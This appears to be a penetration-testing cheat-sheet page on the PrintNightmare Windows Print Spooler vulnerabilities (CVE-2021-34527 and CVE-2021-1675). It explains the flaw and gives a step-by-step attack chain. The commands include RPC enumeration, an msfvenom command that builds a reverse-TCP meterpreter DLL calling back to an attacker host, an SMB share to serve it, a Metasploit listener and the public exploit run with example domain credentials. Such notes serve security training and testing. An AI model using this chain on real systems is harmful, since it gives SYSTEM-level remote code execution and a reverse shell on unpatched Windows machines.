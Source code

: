 # PrintNightmare

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**PrintNightmare**</mark> is the nickname given to two vulnerabilities (**CVE-2021-34527** and **CVE-2021-1675**) found in the Print Spooler service that runs on all Windows operating systems.&#x20;

> Basically it's just <mark style="color:purple;">**RCE**</mark> as **SYSTEM**, via printer driver **DLL injection** through RPC interface of Print Spooler.

<mark style="color:red;">**Print Spooler**</mark> is a Microsoft <mark style="color:purple;">**built-in service that manages printing jobs**</mark>. It is enabled by default and runs within the SYSTEM context.

* **MS-RPRN** – The main protocol for managing printers and print jobs remotely. It handles tasks like listing printers, sending print jobs, and configuring settings.
* **MS-PAR** – Adds support for asynchronous operations to improve performance. It allows non-blocking calls, like getting print job updates without waiting.
* **MS-PAN** – An extension to MS-RPRN that supports newer features. It enables enhanced printer capabilities used in modern Windows systems.

### <mark style="color:blue;">Prerequisites</mark>

* Print Spooler enabled on target (e.g., DC or file server)
* RPC/SMB access (ports 135, 445)
* Attacker has **write access** to printer driver path

## <mark style="color:yellow;">FLOW</mark>

1. Create a malicious DLL
2. Host SMB share, or put DLL into accessible share
3. Trigger DLL install via RPC call
4. Catch reverse shell or payload (Or do anything depends on your payload)

## <mark style="color:yellow;">LINUX</mark>

#### MS-RPRN Enum

```bash
rpcdump.py @13.13.13.13 | egrep 'MS-RPRN|MS-PAR'
```

#### DLL Payload Generation

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=13.13.13.13 LPORT=8080 -f dll > defnotsusfile.dll
```

#### Creating a share

```bash
sudo smbserver.py -smb2support CompData /path/to/defnotsusfile.dll
```

#### Turning on multi/handler

```bash
msf >> use exploit/multi/handler
...
```

#### Running exploit [\[LINK\]](https://github.com/cube0x0/CVE-2021-1675)

```bash
sudo python3 CVE-2021-1675.py militech.local/sreed:password123@13.13.13.13 '\\13.13.13.13\CompData\defnotsusfile.dll'
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/print-spooler-service/printnightmare" %}
